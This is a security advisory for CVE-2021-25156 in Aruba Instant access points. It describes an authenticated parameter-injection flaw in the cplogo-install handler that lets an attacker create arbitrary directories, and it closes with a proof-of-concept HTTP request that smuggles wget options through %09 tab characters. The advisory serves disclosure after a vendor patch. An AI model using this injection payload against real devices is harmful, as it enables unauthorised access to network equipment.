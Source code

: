 ```yaml
---
layout: vuln
credit: 
    - Gr33nh4t
    - waveburst
timeline:
    - type: 'report'
      date: '2020-11-22'
    - type: 'cve-assign'
      date: '2021-02-03'
    - type: 'patch'
      date: '2021-03-09'
    - type: 'release'
      date: '2021-03-09'
product:
     - ' - Aruba Instant'

vulnerable:
     - ' - Aruba Instant 6.4.x: 6.4.4.8-4.2.4.17 and below'
     - ' - Aruba Instant 6.5.x: 6.5.4.18 and below'
     - ' - Aruba Instant 8.3.x: 8.3.0.14 and below'
     - ' - Aruba Instant 8.5.x: 8.5.0.11 and below'
     - ' - Aruba Instant 8.6.x: 8.6.0.6 and below'
     - ' - Aruba Instant 8.7.x: 8.7.1.0 and below'


severity: 'moderate'
alephid: ALEPH-2021004
cve: CVE-2021-25156
date: '2021-03-09'
references:
    - src: 'Aruba Instant (IAP) Multiple Vulnerabilities'
      url: 'https://www.arubanetworks.com/assets/alert/ARUBA-PSA-2021-007.txt'
  
title: 'Authenticated Arbitrary Directory Create via Web UI (cplogo-install)'

---
```

An authenticated attacker can create a directory at arbitrary path. The issue is within the handler for the cplogo-install CLI command.
The handler for the command will not filter %09(tab) characters from the param, which can cause parameter injection into wget call.

An attacker can chain this with other vulnerabilities to run arbitrary commands on the router.

## POC:

```
POST /swarm.cgi HTTP/1.1
Host: IP:4343
.......
.......
Cookie: sid=XXXXXXXXXXXXXXXXXXXX; login=undefined; password=undefined; userType=admin
 
opcode=config&ip=127.0.0.1&cmd='end%20%0Aapply%20cplogo-install%20"https:// IP:4343/backup.cfg%09--directory-prefix%09/tmp/oper_/%09#"'&refresh=false&sid=XXXXXXXXXXXXXXXXXXXX&nocache=0.23759201691110987&=&=
```